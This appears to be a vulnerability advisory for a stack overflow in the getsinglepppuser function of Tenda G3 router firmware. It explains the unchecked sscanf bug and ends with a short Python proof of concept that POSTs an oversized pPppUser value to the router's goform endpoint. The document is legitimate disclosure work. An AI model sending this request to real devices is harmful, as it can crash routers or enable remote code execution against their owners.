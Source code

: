 # Tenda G3 getsinglepppuser
### Overview
vendor: Tenda

product: G3

version: <= G3V3.0br_V15.11.0.17

type: Stack Overflow
### Vulnerability Description
Tenda G3 G3V3.0br_V15.11.0.17 were discovered to contain a stack overflow in the getsinglepppuser function.
### Vulnerability details
Stack-based buffer overflow in function getsinglepppuser on Tenda G3 before G3V3.0br_V15.11.0.17 devices allow remote attackers to cause a denial of service or remote code execution via a crafted parameter for the http post request.

In the function getsinglepppuser line 12, it reads in a user-provided parameter, and the variable pPppUser is passed to the sscanf function without any length check, which may overflow the stack-based buffer. As a result, by requesting the page, an attacker can easily execute a denial of service attack or remote code execution.
![](images/getsinglepppuser-1.png)
![](images/getsinglepppuser-2.png)

### POC
```python
import requests
ip = '192.168.0.1'
url = f'http://{ip}/goform/getsinglepppuser'
payload = {
    "pPppUser": 'a' * 1000
}

res = requests.post(url=url, data=payload)
print(res.content)
```
